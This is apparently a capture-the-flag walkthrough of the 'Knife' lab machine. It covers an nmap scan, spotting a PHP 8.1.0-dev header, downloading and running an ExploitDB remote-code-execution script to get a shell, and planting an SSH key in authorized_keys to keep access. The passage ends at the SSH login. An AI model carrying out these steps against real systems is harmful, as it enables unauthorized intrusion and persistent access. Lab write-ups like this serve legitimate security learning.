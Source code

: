 ## ----------->> Knife <<-------------

// We start with nmap scan

    $ nmap -sV -A -Pn -T4 10.10.10.242 -p-
-----    

    Nmap scan report for 10.10.10.242
    Host is up (0.31s latency).
    Not shown: 65533 closed ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
    |   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
    |_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    |_http-title:  Emergent Medical Idea
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


// Nvigating to website http://10.10.10.242/

![Image 1]()

// Tried some directories searchs(gobuster, dirsearch, feroxbuster) but didnt get much...
// So i tried other approach let see the head of request

    $ curl -i http://10.10.10.242/
-----

    HTTP/1.1 200 OK
    Date: Wed, 04 Aug 2021 08:37:46 GMT
    Server: Apache/2.4.41 (Ubuntu)
    X-Powered-By: PHP/8.1.0-dev
    Vary: Accept-Encoding
    Transfer-Encoding: chunked
    Content-Type: text/html; charset=UTF-8
    
// Notice: PHP/8.1.0-dev 

// Searching in ExploitDB result me interesting python script for RCE (Remote Code Execution)

![Image 2]()
    
// Lets download that script and run him

    $ wget https://www.exploit-db.com/download/49933
----

    $ python3 49933
    Enter the full host url:
    http://10.10.10.242/

    Interactive shell is opened on http://10.10.10.242/ 
    Can't acces tty; job crontol turned off.
    $ id
    uid=1000(james) gid=1000(james) groups=1000(james)

// We got a shell !!! and the flag !!!

    $ cat /home/james/user.txt
    62fb412........................


// since we got SSH service open and a shell Lets try import our pub key to authorized_key of james 

// First generate a ssh key 

    $ ssh-keygen
    
    $ ls
    id_rsa  id_rsa.pub
    
// Copy the public key (id_rsa.pub)

// Now, on targeted host make file 'authorized_keys' (if there isnt)

    $ touch /home/james/.ssh/authorized_keys
    
// and import the key to 'authorized_keys'

    echo "ssh-rsa AAAAB3NzaC1yc......4mb5RwC/b8uyZRc= kali@kali" >> /home/james/.ssh/authorized_keys
    
// Now we can SSH to host with user james

    $ ssh -i id_rsa james@10.10.10.242
    Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

    james@knife:~$ 


// 
